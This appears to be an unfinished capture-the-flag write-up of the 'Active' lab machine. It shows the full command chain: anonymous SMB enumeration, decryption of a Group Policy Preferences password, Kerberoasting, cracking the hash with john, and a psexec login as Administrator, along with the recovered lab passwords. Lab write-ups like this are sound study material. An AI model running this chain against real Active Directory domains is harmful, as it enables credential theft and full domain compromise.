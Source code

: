 #InProgress 
```IP
10.10.10.100
```
# Enumeration
## SMB
```
nxc smb 10.10.10.100 -u '' -p '' --shares
```
```
smbclient //10.10.10.100/Replication
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222100646.png?raw=true)
In the `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups` directory it is possible to find a Groups.xml file that seems to contain credentials for SVC_TGS
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222100923.png?raw=true)

# Exploitation
If we goolge `groups.xml cpassword decrypt` we will get some github pages for decrypting the password like:
https://github.com/t0thkr1s/gpp-decrypt
```
python gpp-decrypt.py -f ../../files/Groups.xml
```
And voilà!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222102733.png?raw=true)
Our password is:
```
GPPstillStandingStrong2k18
```
We can now enumerate other users:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222102912.png?raw=true)
Let's try some AD attack methods. As Rep Roasting doesn't seem to work:
```
impacket-GetNPUsers -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103324.png?raw=true)
But kerberoast does!
```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103349.png?raw=true)
It retrieves an Administrator hash. Let's try cracking it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/administrator.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222103639.png?raw=true)
```
Ticketmaster1968
```
Now we can goin with PSExec:
```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```
And get the flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222104100.png?raw=true)
# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement
